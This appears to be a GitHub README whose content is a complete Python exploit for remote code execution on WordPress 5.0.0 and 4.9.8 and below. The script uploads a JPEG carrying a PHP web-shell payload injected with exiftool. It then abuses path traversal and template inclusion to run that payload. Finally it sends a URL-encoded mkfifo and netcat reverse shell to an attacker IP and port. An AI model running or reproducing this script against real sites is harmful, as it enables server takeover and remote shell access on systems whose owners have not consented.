 INFO
----

WordPress versions 5.0.0 and 4.9.8 and below remote code execution exploit that leverages path traversal and file inclusion vulnerabilities.

EXP
---

    # Exploit Title: WordPress 5.0.0 - Image Remote Code Execution
    # Date: 2020-02-01
    # Exploit Authors: OUSSAMA RAHALI ( aka V0lck3r)
    # Discovery Author : RIPSTECH Technology
    # Version: WordPress 5.0.0 and <= 4.9.8 .
    # References : CVE-2019-89242 | CVE-2019-89242  | https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/

    #/usr/bin/env python3

    import requests
    import re
    import sys
    from datetime import datetime

    banner = """

    __        __            _                           ____   ____ _____
    \ \      / /__  _ __ __| |_ __  _ __ ___  ___ ___  |  _ \ / ___| ____|
     \ \ /\ / / _ \| '__/ _` | '_ \| '__/ _ \/ __/ __| | |_) | |   |  _|
      \ V  V / (_) | | | (_| | |_) | | |  __/__ __ \ |  _ <| |___| |___
       _/_/ ___/|_|  __,_| .__/|_|  ___||___/___/ |_| _\____|_____|
                             |_|
                                   5.0.0 and <= 4.9.8
    """
    print(banner)
    print("usage :")
    print("=======")
    usage = 'python3 RCE_wordpress.py http://<IP>:<PORT>/ <Username> <Password> <WordPress_theme>'
    print(usage)

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    wp_theme = sys.argv[4] # wpscan results

    lhost = '10.10.10.10' #attacker ip
    lport = '4141' #listening port

    date = str(datetime.now().strftime('%Y'))+'/'+str(datetime.now().strftime('%m'))+'/'

    imagename = 'gd.jpg'
    # ======
    # Note :
    # ======
    # It could be any jpg image, BUT there are some modifications first :
    # 1- image name as : "gd.jpg"
    # 2- place the image in the same directory as this exploit.
    # 3- inject the php payload via exiftool : exiftool gd.jpg -CopyrightNotice="<?=\`\$_GET[0]\`?>"

    data = {
      'log':username,
      'pwd':password,
      'wp-submit':'Log In',
      'redirect_to':url+'wp-admin/',
      'testcookie':1
    }

    r = requests.post(url+'wp-login.php',data=data)

    if r.status_code == 200:
      print("[+] Login successful.\n")
    else:
      print("[-] Failed to login.")
      exit(0)

    cookies = r.cookies

    print("[+] Getting Wp Nonce ... ")

    res = requests.get(url+'wp-admin/media-new.php',cookies=cookies)
    wp_nonce_list = re.findall(r'name="_wpnonce" value="(\w+)"',res.text)

    if len(wp_nonce_list) == 0 :
      print("[-] Failed to retrieve the _wpnonce \n")
      exit(0)
    else :
      wp_nonce = wp_nonce_list[0]
      print("[+] Wp Nonce retrieved successfully ! _wpnonce : " + wp_nonce+"\n")

    print("[+] Uploading the image ... ")

    data = {
      'name': 'gd.jpg',
      'action': 'upload-attachment',
      '_wpnonce': wp_nonce
    }

    image = {'async-upload': (imagename, open(imagename, 'rb'))}
    r_upload = requests.post(url+'wp-admin/async-upload.php', data=data, files=image, cookies=cookies)
    if r_upload.status_code == 200:
      image_id = re.findall(r'{"id":(\d+),',r_upload.text)[0]
      _wp_nonce=re.findall(r'"update":"(\w+)"',r_upload.text)[0]
      print('[+] Image uploaded successfully ! Image ID :'+ image_id+"\n")
    else :
      print("[-] Failed to receive a response for uploaded image ! try again . \n")
      exit(0)

    print("[+] Changing the path ... ")


    data = {
      '_wpnonce':_wp_nonce,
      'action':'editpost',
      'post_ID':image_id,
      'meta_input[_wp_attached_file]':date+imagename+'?/../../../../themes/'+wp_theme+'/rahali'
    }

    res = requests.post(url+'wp-admin/post.php',data=data, cookies=cookies)
    if res.status_code == 200:
      print("[+] Path has been changed successfully. \n")
    else :
      print("[-] Failed to change the path ! Make sure the theme is correcte .\n")
      exit(0)

    print("[+] Getting Ajax nonce ... ")

    data = {
      'action':'query-attachments',
      'post_id':0,
      'query[item]':43,
      'query[orderby]':'date',
      'query[order]':'DESC',
      'query[posts_per_page]':40,
      'query[paged]':1
    }

    res = requests.post(url+'wp-admin/admin-ajax.php',data=data, cookies=cookies)
    ajax_nonce_list=re.findall(r',"edit":"(\w+)"',res.text)

    if res.status_code == 200 and len(ajax_nonce_list) != 0 :
      ajax_nonce = ajax_nonce_list[0]
      print('[+] Ajax Nonce retrieved successfully ! ajax_nonce : '+ ajax_nonce+'\n')
    else :
      print("[-] Failed to retrieve ajax_nonce.\n")
      exit(0)


    print("[+] Cropping the uploaded image ... ")

    data = {
      'action':'crop-image',
      '_ajax_nonce':ajax_nonce,
      'id':image_id,
      'cropDetails[x1]':0,
      'cropDetails[y1]':0,
      'cropDetails[width]':200,
      'cropDetails[height]':100,
      'cropDetails[dst_width]':200,
      'cropDetails[dst_height]':100
    }

    res = requests.post(url+'wp-admin/admin-ajax.php',data=data, cookies=cookies)
    if res.status_code == 200:
      print("[+] Done . \n")
    else :
      print("[-] Erorr ! Try again \n")
      exit(0)

    print("[+] Creating a new post to include the image... ")

    res = requests.post(url+'wp-admin/post-new.php', cookies=cookies)
    if res.status_code == 200:
      _wpnonce = re.findall(r'name="_wpnonce" value="(\w+)"',res.text)[0]
      post_id = re.findall(r'"post":{"id":(\w+),',res.text)[0]
      print("[+] Post created successfully . \n")
    else :
      print("[-] Erorr ! Try again \n")
      exit(0)

    data={
      '_wpnonce':_wpnonce,
      'action':'editpost',
      'post_ID':post_id,
      'post_title':'RCE poc by v0lck3r',
      'post_name':'RCE poc by v0lck3r',
      'meta_input[_wp_page_template]':'cropped-rahali.jpg'
    }
    res = requests.post(url+'wp-admin/post.php',data=data, cookies=cookies)
    if res.status_code == 200:
      print("[+] POC is ready at : "+url+'?p='+post_id+'&0=id\n')
      print("[+] Executing payload !")
      requests.get(f"{url}?p={post_id}&0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20{lhost}%20{lport}%20%3E%2Ftmp%2Ff",cookies=cookies)

    else :
      print("[-] Erorr ! Try again (maybe change the payload) \n")
      exit(0)